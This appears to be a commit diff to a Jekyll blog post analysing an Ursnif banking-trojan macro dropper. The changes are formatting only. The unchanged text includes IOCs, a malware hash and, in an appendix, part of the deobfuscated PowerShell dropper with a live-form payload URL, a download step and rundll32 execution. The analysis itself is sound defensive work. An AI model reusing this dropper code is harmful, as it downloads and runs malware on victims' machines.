

Before and after one commit to aj-tap/archive-blog, a Jekyll site: the page built from _posts/2023-02-28-Malware-Analysis-Ursnif-Dropper.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2023-02-28-Malware-Analysis-Ursnif-Dropper.md

````diff
--- a/_posts/2023-02-28-Malware-Analysis-Ursnif-Dropper.md
+++ b/_posts/2023-02-28-Malware-Analysis-Ursnif-Dropper.md
@@ -4,22 +4,17 @@
 title: Malware Analysis Ursnif Dropper
 categories: Malware_Analysis
 ---
-
 # Introduction
-
 Ursnif malware, also known as [Gozi](https://malpedia.caad.fkie.fraunhofer.de/details/win.gozi), Gozi-ISFB, Dreambot, Papras, and snifula, is a sophisticated type of banking trojan, stealer, and spyware. In 2020, it was identified as the second-most active strain of malware, accounting for over 30 percent of malware detections. What sets Ursnif apart is its long history in the cybercrime world, dating back to its initial appearance in 2000. Ursnif's longevity has made it one of the oldest malware families in existence, and its source code has been publicly disclosed on numerous occasions, leading to the creation of multiple variants. The Ursnif malware family now encompasses a growing number of highly effective strains, each with a diverse set of modular features. In this blog post, we'll explore the intricacies of Ursnif malware, including its history, evolution, and detection and mitigation strategies.
 
 ![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper.png){:width="100%"}
 
 ![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-1.png){:width="100%"}
 
-
-|File Name | SHA256 |
-| --- | ---|
-| 23-04-2020.doc | 580776d602e2edd816472ca7b9f651740d24313477598c88cc8b9a04a1016394|
-
 One of the most prevalent ways that Ursnif infects its targets is through the use of malicious macros. The Ursnif dropper uses macros embedded in Microsoft Word or Excel documents to download the second-stage payload onto the infected system. Once the macro is executed, it will typically initiate a PowerShell command to download the payload.
 In this blog post, we will explore how the Ursnif dropper uses macros and PowerShell to download the second-stage payload.
+
+---
 
 # Analyzing the Ursnif Dropper
 
@@ -46,7 +41,7 @@
 Using oleid, a script that analyzes OLE files to detect specific characteristics that are commonly found in malicious files,
 The document contains suspicious Macros, as we can see. Let's extract and analyze the suspicious macros with olvevba.
 
-![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-4.png){:width="100%"}
+![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-4.png){:width="50%"}
 
 
 ```
@@ -108,7 +103,7 @@
 ![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-11.png){:width="100%"}
 
 
-![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-12.png){:width="100%"}
+![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-12.png){:width="50%"}
 
 
 **Decoding the data using Python**
@@ -138,9 +133,11 @@
 The PowerShell script executes a series of a task to download and register a binary file.
 The script  attempts to download the file from a specified URL. hxxp[://]to4karu[.]ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu[.]bin. The function checks if the downloaded file is greater than or equal to 99463 bytes. If it is, the DLL file is registered using rundll32.exe, and the downloaded file is deleted. If an exception occurs during the download, the function waits for 5 seconds and then tries again. The function continues to run until the downloaded file is successfully registered and deleted.
 
+---
+
 # Running the Macros
 
-## Host
+## Host-based Indicators
 
 ![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-16.png){:width="100%"}
 
@@ -158,7 +155,7 @@
 **Malicious payload is dropped in the user's profile directory.**
 
 
-## Network
+## Network Indicators
 
 ![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-19.png){:width="100%"}
 
@@ -168,6 +165,8 @@
 
 **Procmon and Wireshark Packet capture of downloading the malicious payload.**
 
+---
+
 # IOCs
 ```
 hxxp[://]to4karu[.]ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu[.]bin
@@ -175,10 +174,11 @@
 580776d602e2edd816472ca7b9f651740d24313477598c88cc8b9a04a1016394  23-04-2020.doc
 ```
 
+---
+
 # Appendices
-
 ## Deobfuscated PS script
-
+---
 ```
 $download_url = "http://to4karu.ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu.bin";
 $downloaded_file = "ujfnrhzvpittgwsj.bin";
@@ -212,9 +212,9 @@
 }
 download_file;
 ```
-
+---
 ## Decoder.py
-
+---
 ```
 lookup_table = """ojqfiadxctxvppyfjmlpqkxqoialcrfhywepuacqrxrlcrdoepuauhdrhgnyfrzsoscshhqubokllhvvxhcvdk.zgvfpgxkuwmslwpjb-afyfahncmnfl sheyocykzanlrcecfddubovibwbdtihfddybyqieacockrljoygigimrvimsmdbxmcdpoeiar:kinjvbtt{wmjbuaiheij9kmlzkmbjpgkaBqmbsdlddqedtAzfakah0telnxj5epfngytq7jcpmnhoocikmsl2pmeyznFwpgamk6xcjchcyt8ghtdpxcq1ihqnvaeootgmheCyfpcgglpw4nzsekbszsbp3brdeqccjj}cuhruvchwot\jirscwqWeifadrmSuglngkhgkgtlvzyvakidqwhm"""
 
````
